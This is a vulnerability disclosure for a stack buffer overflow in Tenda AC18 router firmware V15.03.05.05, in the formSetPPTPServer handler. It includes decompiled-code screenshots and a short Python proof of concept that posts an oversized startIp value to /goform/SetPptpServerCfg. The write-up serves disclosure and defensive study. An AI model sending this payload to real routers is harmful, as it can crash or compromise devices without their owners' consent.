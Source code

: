 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetPPTPServer` function. The `v20` variable receives the `startIP` parameter  and the `v19` variable receives the `endIP` parameter from two POST requests. the value of `startIp` is formatted using the `sscanf` function with the format `%[^.].%[^.].%[^.].%s`. Then variable `v13`, `v14` and `v15` is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `startIP` and `endIP` can trigger this security vulnerability.

![image-20240306172220665](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172220665.png)

![image-20240306172206351](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172206351.png)

![image-20240306172158618](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172158618.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetPptpServerCfg"
payload = 'a'*1000

data = {"startIp": payload,"endIp": 1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306172306041](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172306041.png)